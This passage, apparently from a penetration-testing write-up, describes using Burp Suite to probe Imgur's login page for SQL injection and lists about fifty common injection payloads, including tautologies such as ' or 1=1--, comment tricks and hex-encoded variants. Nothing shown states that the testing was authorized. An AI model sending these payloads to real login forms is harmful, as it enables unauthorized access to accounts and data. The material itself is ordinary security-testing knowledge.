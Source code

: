 #### Exploitation - Burpsuite & SQLi
- Burpsuite can be also used to test SQLi vulnerability. 
- Because the imgur search bar did not seem injectable, we'll test the imgur login page for SQLi.
- SQLi list of payloads tested

```sql
'
"
#
-
--
'%20--
--';
'%20;
=%20'
=%20;
=%20--
\x23
\x27
\x3D%20\x3B'
\x3D%20\x27
\x27\x4F\x52 SELECT *
\x27\x6F\x72 SELECT *
'or%20select *
admin'--
<>"'%;)(&+
'%20or%20''='
'%20or%20'x'='x
"%20or%20"x"="x
')%20or%20('x'='x
0 OR 1=1
' or 0=0 --
" or 0=0 --
or 0=0 --
' OR 0=0 #
" or 0=0 #
or 0=0 #
' or 1=1--
" OR 1=1--
' or '1'='1'--
"' OR 1 --'"
OR 1=1--
or%201=1
or%201=1 --
' or 1=1 or ''='
" or 1=1 or ""="
' or a=a--
" or "a"="a
') OR ('a'='a
") or ("a"="a
hi" or "a"="a
hi" or 1=1 --
hi' OR 1=1 --
hi' or 'a'='a
hi') or ('a'='a
hi") or ("a"="a
'hi' OR 'x'='x';
@variable
,@variable
PRINT
PRINT @@variable
SELECT
INSERT
AS
```